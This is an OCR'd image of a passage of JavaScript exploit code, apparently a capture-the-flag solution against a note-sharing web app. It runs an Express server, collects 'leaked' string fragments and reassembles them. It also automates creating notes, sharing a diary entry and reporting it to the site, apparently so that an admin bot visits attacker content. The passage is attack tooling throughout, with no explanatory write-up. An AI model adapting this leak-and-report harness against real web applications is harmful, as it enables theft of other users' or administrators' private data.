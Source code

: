 ``` js

    if (suffix === prefix) {
      found.push([arr.filter(item => item!==arr[i]), arr[i][0] + ending])
    }
  }

  return found.map((item) => {
    return mergeWords(item[0], item[1])
  })
}

function handleLeak() {
  let str = ''
  let arr = [...leaks]
  leaks = []

  console.log('received:', arr)
  const merged = mergeWords(arr, null);
  console.log('leaked:', merged.flat(99))
  return merged.flat(99)
}

async function createNote(title, content){
  return await fetch(cookieJar, host + '/write', {
    method: 'POST',
    headers: {
      'content-type': 'application/x-www-form-urlencoded',
    },
    body: `title=${encodeURIComponent(title)}&content=${encodeURIComponent(content)}`
  })
}

async function getNotes() {
  return await fetch(cookieJar, host + '/', {
  }).then(res => res.text())
}

async function share(id) {
  return await fetch(cookieJar, host + '/share_diary/' + id, {
  }).then(res => res.text())
}

async function report(username, id) {
  return await fetch(cookieJar, `${host}/report?username=${username}&id=${id}` , {
  }).then(res => res.text())
}

app.get('/', (req, res) => {
  res.send('Hello World!')
})

app.get('/start', async (req, res) => {
  // create ccount
  username = getRandomStr(8)
  let password = getRandomStr(8)
  leaks = []
  hasToken = false

  console.log({
    username,
    password
  })

```